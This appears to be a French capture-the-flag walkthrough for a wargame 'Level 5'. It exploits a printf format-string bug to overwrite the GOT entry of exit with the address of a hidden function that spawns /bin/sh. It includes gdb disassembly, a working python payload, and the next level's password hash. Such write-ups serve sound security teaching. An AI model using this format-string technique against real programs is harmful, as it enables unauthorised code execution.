 # Level 5

Ce niveau ressemble aux deux précédents, à la différence qu'après le `printf` il appelle la function `exit`.  
En examinant l'asm on peut voir qu'il y a une fonction `o` pas utilisée, qui appelle `system("/bin/sh")`.

Quand on reverse `exit`, on voit que la function fait en réalité un `jmp` à une adresse. L'idée de notre exploit sera donc de modifier l'adresse du jump d'exit (dans la [*Global Offset Table*](https://en.wikipedia.org/wiki/Global_Offset_Table)) par l'adresse de la fonction `o`.  
`objdump -TR level5` nous donne l'adresse de `exit()` => `08049838`. `objdump -t level5 | grep o` nous donne l'adresse de `o` => `080484a4`.  

Les adresses du programme commençant toutes par `0x0804`, nous n'avons donc à modifier qu'une partie de l'adresse grâce à `printf`.  
La partie que nous devons réécrire est donc `84a4` (soit 33956 en décimal).

```shell
~ gdb level5
(gdb) disas main
Dump of assembler code for function main:
[...]
   0x0804850a <+6>:	call   0x80484c2 <n>
[...]
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
[...]
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) info func
All defined functions:

Non-debugging symbols:
[...]
0x080484a4  o
0x080484c2  n
0x08048504  main
[...]
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
   0x080483d6 <+6>:	push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb) quit
~ python -c 'print "\x38\x98\x04\x08" + "%33952x" + "%4$hn"' > /tmp/level5
~ cat /tmp/level5 - | ./level5
[...]
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```